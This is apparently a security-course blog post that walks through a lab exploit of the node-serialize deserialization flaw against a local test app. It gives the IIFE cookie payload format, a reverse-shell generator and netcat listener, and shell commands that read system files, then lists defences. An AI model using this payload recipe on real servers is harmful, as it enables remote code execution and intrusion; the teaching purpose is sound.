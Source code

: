 ```yaml
---
layout: post
title: Insecure Deserialization & Insufficient Logging & Monitoring
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

We will be exploiting a known vulnerability of node-serialize discussed in last week's post.      
>**Vulnerability:** Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE). Specifically the vulnerability in the web app is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and passes it to unserialize() function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability. <sub>[1]</sub>

### Exercise 
**Note:** Since this exercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back-end to prevent these kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial. Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and open the terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything starting at `eval(`  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or type the following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Open a terminal and type `nc -l 127.0.0.1 3333`.  Looks like nothing is happening but give it a minute while we run the rest of the exploit. 

7. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. You should get a Response 302 Found and a message Redirecting like the image below. 

   ![Repeater Redirecting](/images/week8_Redirecting.JPG)   
   
8. Go back to the terminal where you entered `nc -l 127.0.0.1 3333` and you will see a Connected! message. Here are a few commands you can try      
`ls` list directory contents.      
`whoami` It displays the username of the current user.      
`pwd` Print Working Directory. It prints the path of the working directory, starting from the root.     
`uname -r` Used to get information about current operating system. In this case the Linux kernel version.     
`cat /etc/os-release` Name, version of Operating System.     
`exit` Get out of shell and back into working directory.     

   ![Shell](/images/week8_Connected.JPG)   

**[Video of Insecure Deserialization on localhost](https://media.oregonstate.edu/media/t/0_1e1lfvl2)**

### Analysis
Do not to accept serialized objects from untrusted sources or to use serialization mediums that only permit primitive data types. If that is not possible, consider the following:     
- Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
- Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege environments when possible.
- Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
Monitoring deserialization, alerting if a user deserializes constantly. <sub>[2]</sub>

### References
1. <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
2. <https://hdivsecurity.com/owasp-insecure-deserialization> 
3. <https://github.com/ajinabraham/Node.Js-Security-Course>
4. <https://expressjs.com/en/resources/middleware/cookie-parser.html>
5. <https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/>

# Insufficient Logging & Monitoring
